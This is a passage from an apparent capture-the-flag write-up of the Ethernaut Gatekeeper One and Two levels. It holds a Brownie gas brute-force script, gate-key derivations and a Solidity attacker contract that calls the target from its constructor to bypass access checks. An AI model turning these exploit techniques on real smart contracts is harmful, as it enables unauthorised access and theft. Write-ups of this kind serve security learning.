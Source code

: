   - `uint32(uint64(_gateKey)) != uint64(_gateKey)` and `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)`
  making `_gateKey` from flipping any of the first 8 characters of `0x000000000000aabb` will pass these 2 requirements
  let take `_gateKey = '0x000000010000aabb'`

**Solution**
- Go to `scripts/13_GatekeeperOne/deploy_and_attack.py` and update `challenge_address` and `gateKey`
- To estimate gas, using rinkeby-fork for faster transaction confirmation
```bash
$ brownie run scripts/13_GatekeeperOne/deploy_and_attack.py gasEstimation --network rinkeby-fork
Success!!! You should use 819354 gas
```

Where the script basically try out different gas, it will stop when `attacker.attack` does not revert
```python
print('estimating gas use of the attack function')
for i in range(1000):
  try:
      tx = attacker.attack(
          _gateKey, MOD * 100 + i, {'from': account})
  except:
      print('keep trying...')
      continue
  break
print(f'Success!!! You should use {MOD * 100 + i} gas')
```

- When having that number, we are ready to pass the challenge. 
```bash
$ brownie run scripts/13_GatekeeperOne/deploy_and_attack.py attack --network rinkeby
```



### 14. Gatekeeper Two
[Excellent writeup](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd)
- Create attack contract to pass gate1
- to pass gate3 
```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
// so
uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^  (uint64(0) - 1)
```
- to pass gate2: have to call 'enter` function in the `constructor` function of attack contract

```solidity
constructor(address _challengeAddr) public {
  challenge = GatekeeperTwo(_challengeAddr);
  
  // Not sure why but got Gas estimation failed: 'execution reverted' when using this with brownie, even with setting gasLimit
  // bytes8 _gateKey = bytes8(
  //     uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^
  //         (uint64(0) - 1)
  // );
  // challenge.enter(_gateKey);

  uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^
      (uint64(0) - 1);
  challenge.enter(bytes8(gateKey));
    }
```
